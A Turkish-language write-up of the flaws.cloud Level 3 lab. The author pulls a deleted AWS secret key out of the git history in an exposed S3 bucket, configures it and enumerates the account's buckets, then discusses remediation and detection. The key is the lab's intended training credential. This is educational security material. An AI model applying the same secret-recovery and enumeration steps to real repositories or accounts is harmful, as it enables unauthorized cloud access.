





# flaws.cloud — Level 3

## 1. Özet

Level 3'ün bucket'ı, Level 1/2'nin aksine bir ACL ya da bucket policy
hatası değil, **git geçmişinde yaşayan bir secret** üzerinden sömürülüyor.
Bucket dosyalarının tamamı `aws s3 sync` ile indirildiğinde, indirilen
klasörün içinde gizli bir `.git/` dizini de ortaya çıkıyor — yani S3'e
`.git` dizini de dahil edilerek deploy edilmiş. Bu dizinin commit
geçmişinde, ikinci commit'in mesajı bizzat kendini ele veriyor: "Oops,
accidentally added something I shouldn't have" ("Oops, eklememem gereken
bir şeyi eklemişim"). Bu commit'in diff'i, **silinmiş** bir
`access_keys.txt` dosyasının eski (silinmeden önceki) içeriğini gösteriyor:
bir AWS Access Key ID + Secret Access Key.

Bu, "bir dosyayı sildim, artık güvendeyim" varsayımının klasik ve tehlikeli
yanılgısı: git'te bir dosyayı silmek yeni bir commit oluşturur, ama dosyanın
**eski hâli önceki commit'lerde/history'de saklanmaya devam eder.**
`git log` + `git show` ile bu geçmiş her zaman geri getirilebilir.

## 2. Sömürü (Exploit)

**a) Bucket'ın yerel klasöre indirilmesi ve `.git` dizininin keşfi**

Bucket, `--no-sign-request` ile (Level 1'dekiyle aynı şekilde, anonim
olarak) yerel bir klasöre senkronize edildi:

```bash
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ ./level3 \
  --no-sign-request --region us-west-2
cd level3
ls -la
```

Çıktıda beklenen `index.html`, `robots.txt`, `hint1.html`–`hint4.html`,
`authenticated_users.png` dosyalarının yanında, normalde bir web sitesi
deploy'unda bulunmaması gereken bir **`.git/` dizini** görülüyor:



**b) Commit geçmişinin incelenmesi**

`.git` dizini varsa, bir git repository'sinin tüm geçmişi de oradadır.
`git --no-pager log` iki commit gösteriyor:

```bash
git --no-pager log
```

```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

İkinci commit'in mesajı ("Oops, accidentally added something I shouldn't
have") tek başına şüphe uyandırıyor — bu, geliştiricinin bir hata yapıp
onu "düzelttiğini" (yani sildiğini) düşündüğü bir commit olduğuna işaret
ediyor.


**c) `git show` ile diff'in alınması ve sızmış key'in ortaya çıkması**

Şüpheli commit'in diff'i alındığında, silinen dosyanın adı ve eski içeriği
(silinmeden önceki hâli) doğrudan görünüyor:

```bash
git --no-pager show b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
```

```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

diff --git a/access_keys.txt b/access_keys.txt
deleted file mode 100644
index e3ae6dd..0000000
--- a/access_keys.txt
+++ /dev/null
@@ -1,2 +0,0 @@
-access_key AKIAJ366LIPB4****** (redacted)
-secret_access_key 0dNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys
```



Sızan kimlik bilgileri (flaws.cloud'un kasıtlı olarak eğitim amacıyla
bıraktığı sandbox key'i, gerçek bir sızıntı değil — bu yüzden burada açıkça
yazılıyor):

- **Access Key ID:** `AKIAJ366LIPB4****** (redacted)`
- **Secret Access Key:** `0dNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys`

**d) Key'in ayrı bir profile yüklenmesi**

Bulunan key/secret, kendi kimlik bilgilerimi bozmamak için ayrı bir
adlandırılmış profile (`flaws3`) yüklendi:

```bash
aws configure --profile flaws3
```

```
AWS Access Key ID [None]: AKIAJ366LIPB4****** (redacted)
AWS Secret Access Key [None]: 0dNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys
Default region name [None]: us-west-2
Default output format [None]: json
```



**e) Kimliğin doğrulanması**

`aws sts get-caller-identity` ile bu key'in kime ait olduğu doğrulandı —
sonuç, flaws.cloud'un **kendi** AWS hesabına, `backup` adlı bir IAM
kullanıcısına ait olduğunu gösteriyor:

```bash
aws sts get-caller-identity --profile flaws3
```

```json
{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}
```



**f) Bu kimlikle hesabın tüm kaynaklarının görülmesi**

Bu gerçek, hesap-genelinde geçerli long-term key ile `aws s3 ls`
çalıştırıldığında, flaws.cloud hesabının **tüm** bucket'ları listelenebildi
— sadece Level 3'ün kendi bucket'ı değil, henüz çözülmemiş sonraki
level'ların (level4, level5, level6) bucket'ları dahil:

```bash
aws s3 ls --profile flaws3
```

```
2026-04-28 14:44:51 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2026-04-28 14:31:10 config-bucket-975426262029
2026-04-24 20:21:36 flaws-logs
2026-04-28 16:20:23 flaws.cloud
2026-04-25 00:54:29 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2026-04-27 17:14:25 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2026-04-27 23:28:40 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2026-04-27 23:05:20 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2026-04-24 22:33:12 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2026-04-25 00:46:53 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```



Bu son adım, tek bir dosyaya (`access_keys.txt`) yazılmış, çevre
değişkeni/rol yerine düz metin olarak saklanmış bir **long-term IAM
kullanıcı key'inin** sızması durumunda saldırganın elde ettiği görünürlüğün
boyutunu gösteriyor: key hangi S3 bucket'ına özel değil, **tüm hesaba**
`s3:ListAllMyBuckets` düzeyinde erişim veriyor.

## 3. Önleme (Remediation)

Bu senaryo flaws.cloud'un **kendi gerçek AWS hesabında** çalıştığı için,
Level 1/2'de yapıldığı gibi kendi test ortamımda (`test-lab-level1`)
birebir yeniden üretim yapılmadı — flaws.cloud'un altyapısını
değiştiremeyeceğimiz için bu anlamsız olurdu. Bunun yerine, bu sınıf açığa
karşı önerilen kontroller:

- **Sızan key derhal iptal/rotate edilmeli.** `aws iam update-access-key
  --access-key-id AKIAJ366LIPB4****** (redacted) --status Inactive --user-name backup`
  ile anında devre dışı bırakılmalı, ardından `aws iam delete-access-key`
  ile tamamen silinip yeni bir key üretilmeli.
- **Secret'lar hiçbir zaman düz metin dosyaya veya koda yazılmamalı.**
  `access_keys.txt` gibi bir dosya yerine AWS Secrets Manager / Parameter
  Store (SecureString) kullanılmalı; EC2/Lambda gibi AWS kaynakları
  çalışıyorsa, hiç long-term key üretmeden doğrudan **IAM role** (geçici,
  otomatik rotate edilen kimlik bilgileri) atanmalı.
- **Git geçmişinden secret'ı temizlemek için sadece dosyayı silmek
  yetmez.** `git rm` + yeni commit, eski commit'lerdeki içeriği silmez —
  history'de erişilebilir kalır (bu level'ın tam olarak gösterdiği şey).
  Secret'ı gerçekten kaldırmak için `git filter-repo` (veya BFG
  Repo-Cleaner) ile tüm geçmişin yeniden yazılması ve ardından etkilenen
  key'in **iptal edilmesi** (history temizliği key'i geçersiz kılmaz, sadece
  gizler) gerekir.
- **`.git` dizini deploy/publish sürecine asla dahil edilmemeli.** CI/CD
  veya statik site deploy script'inde S3'e sync/upload edilecek dosyalar
  açıkça beyaz listeye alınmalı ya da `.git`, `.env` gibi dizinler
  `--exclude` ile hariç tutulmalı; ideal olarak build çıktısı ayrı, git
  geçmişinden bağımsız bir dizinden (`dist/`, `build/`) deploy edilmeli.
- **Pre-commit secret-scanning.** `trufflehog`, `git-secrets` veya benzeri
  bir pre-commit hook, `access_keys.txt` gibi bir dosya commit edilmeden
  **önce** AKIA desenini yakalayıp commit'i reddeder — bu açığın hiç
  oluşmasını engelleyen en erken katman.

## 4. Tespit (Detection)

Savunan tarafta bu sızıntı, saldırı gerçekleştikten sonra CloudTrail ve
GuardDuty üzerinden şu şekilde görünür hâle gelirdi:

- **CloudTrail'de anormal kullanım deseni.** `backup` kullanıcısına ait
  `AKIAJ366LIPB4****** (redacted)` key'i normalde düşük aktiviteli, belirli bir
  otomatik backup görevi için kullanılıyorsa, bu key'in aniden
  `ListBuckets`, `GetCallerIdentity`, `ListObjects` gibi **enumeration**
  çağrıları yapmaya başlaması — özellikle backup görevinin kapsamı
  dışındaki bucket'lara erişim denemesi — güçlü bir anomali sinyalidir.
- **`sourceIPAddress` anomalisi.** Bu key normalde sabit bir sunucu/CI
  makinesinin IP'sinden çalışıyorsa, farklı, daha önce hiç görülmemiş bir
  IP'den (örn. bir araştırmacının/saldırganın kendi makinesi) gelen
  istekler CloudTrail'de kolayca ayırt edilebilir.
- **GuardDuty.** `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`
  ve benzeri "credential kullanım anomalisi" bulgu tipleri, bir IAM
  kullanıcı key'inin alışılmadık bir coğrafya/IP/user-agent'tan
  kullanılmaya başlanmasını tespit edebilir.
- **AWS Config / IAM Access Analyzer — kullanılmayan credential'lar.**
  Bu, saldırı olmadan **önce** yakalamanın asıl yoludur: IAM Access
  Analyzer ve IAM'in kendi "credential report" özelliği, uzun süredir
  kullanılmayan veya rotate edilmemiş access key'leri proaktif olarak
  işaretler. `backup` kullanıcısının key'i düzenli rotate edilseydi, git
  geçmişinde sızmış olsa bile eski key çoktan geçersiz olurdu.

## 5. Kendi Test Ortamı / Ground-Truth Notu

Bu level'da diğerlerinden farklı olarak **kendi test bucket'ımda aynı
senaryoyu kurmadım.** Sömürü, flaws.cloud'un **gerçek** AWS hesabına
(`975426262029`) karşı, sızmış `backup` kullanıcısının **salt-okunur**
(read-only, backup amaçlı) key'i ile yapıldı. Bu key'le sadece **okuma/
listeleme (enumeration)** işlemleri çalıştırıldı (`get-caller-identity`,
`s3 ls`); hiçbir yazma, silme veya değiştirme işlemi uygulanmadı.

## 6. Kök Neden (Paylaşılan Sorumluluk)

Bu, Level 1/2'nin aksine AWS'in ACL/Block Public Access gibi platform
kontrolleriyle **hiç ilgisi olmayan**, tamamen müşteri (geliştirici) tarafı
bir insan hatası: bir secret'ın (`access_keys.txt`) yanlışlıkla git'e
commit edilmesi, ardından "sildim, artık yok" varsayımıyla ikinci bir
commit'le dosyanın kaldırılması — ama git'in **eklemeli (append-only)**
doğası gereği eski içeriğin history'de kalmaya devam etmesi. Buna ek
olarak, bu `.git` dizininin S3'e deploy edilen dosyalarla birlikte
sync'lenmesi de ayrı bir süreç hatası (statik site publish akışının kaynak
kod geçmişini de dahil etmesi).

AWS Paylaşılan Sorumluluk Modeli çerçevesinde bu tamamen "security **in**
the cloud" tarafında kalan bir hata: AWS ne git kullanımını, ne deploy
sürecini, ne de secret yönetimini kontrol eder — bunların hepsi müşterinin
sorumluluğundadır. AWS'in sunabileceği tek doğrudan katkı, Secrets
Manager/Parameter Store gibi *alternatif, daha güvenli bir yol sunmak* ve
IAM Access Analyzer/Config gibi *tespit araçları sağlamaktır*; ama bu
araçları kullanıp kullanmamak, secret'ı dosyaya yazıp yazmamak yine
geliştiricinin kararıdır.
